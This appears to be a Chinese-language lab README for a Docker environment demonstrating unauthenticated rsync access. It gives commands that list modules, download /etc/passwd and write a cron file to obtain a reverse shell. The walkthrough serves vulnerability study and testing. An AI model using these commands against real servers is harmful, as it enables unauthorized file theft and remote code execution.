 # rsync 未授权访问漏洞

rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听873端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件。

## 漏洞测试

编译及运行rsync服务器：

```
docker-compose build
docker-compose up -d
```

环境启动后，我们用rsync命令访问之：

```
rsync rsync://your-ip:873/
```

可以查看模块名列表：

![](1.png)

如上图，有一个src模块，我们再列出这个模块下的文件：

```
rsync rsync://your-ip:873/src/
```

![](2.png)

这是一个Linux根目录，我们可以下载任意文件：

```
rsync -av rsync://your-ip:873/src/etc/passwd ./
```

或者写入任意文件：

```
rsync -av shell rsync://your-ip:873/src/etc/cron.d/shell
```

我们写入了一个cron任务，成功反弹shell：

![](3.png)